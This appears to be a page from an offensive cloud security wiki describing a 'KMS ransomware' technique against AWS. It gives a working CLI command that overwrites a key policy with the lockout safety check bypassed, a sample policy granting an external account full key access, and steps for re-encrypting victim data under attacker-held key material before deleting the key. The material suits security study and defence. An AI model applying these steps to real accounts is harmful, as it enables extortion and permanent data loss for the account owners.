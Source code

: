 ### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service that has been encrypted with those keys, creating an easy but effective ransomware over the account.

> [!WARNING]
> Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

> Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

> [!CAUTION]
> Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able cause the Put Polocy action cannot be performed from a cross account**.

![](../../../images/image (77).png)

### Generic KMS Ransomware

There is another way to perform a global KMS Ransomware, which would involve the following steps:

- Create a new **key with a key material** imported by the attacker
- **Re-encrypt older data** of the victim encrypted with the previous version with the new one.
- **Delete the KMS key**
- Now only the attacker, who has the original key material could be able to decrypt the encrypted data
